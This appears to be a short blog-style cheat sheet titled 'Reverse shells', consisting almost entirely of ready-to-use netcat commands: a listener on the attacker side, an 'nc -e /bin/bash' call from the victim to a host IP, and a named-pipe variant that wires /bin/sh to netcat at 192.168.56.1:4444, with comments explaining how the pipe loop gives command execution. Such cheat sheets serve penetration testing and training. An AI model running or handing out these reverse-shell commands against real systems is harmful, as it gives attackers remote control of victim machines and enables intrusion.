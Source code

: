 ```yaml
---
layout: post
title: "Reverse shells"
date: 2023-09-20 09:02:22 -0400
categories: [Misc]
---
```


## Netcat

There are different variants of netcat, so if things doesn't work, you probably want to get some error output from the victim `(2> /tmp/err)`

```bash
# Host
nc -lvp 4444
# Host (macOS)
nc -v -l 4444

# Victim
nc <HOST_IP> 4444 -e /bin/bash
```

Sometimes the victim machine might not have -e argument enabled, then we can hack our way using the following command

Credit: https://spencerdodd.github.io/2017/02/21/reverse_shell_without_nce/

```bash
# Create a new file system node, with type pipe
mknod /tmp/backpipe p
# Then we create this nice cycle of pipe
# First part will redirect stdout of backpipe to /bin/sh, which is used to execute commands
# Second part will redirect output of nc to the pipe, which connects to the first part for command execution
# Result of the command then gets piped to nc using `|` operator, finishing the cycle
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe

# Combined, you can have a nice script like
rm /tmp/backpipe && mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```
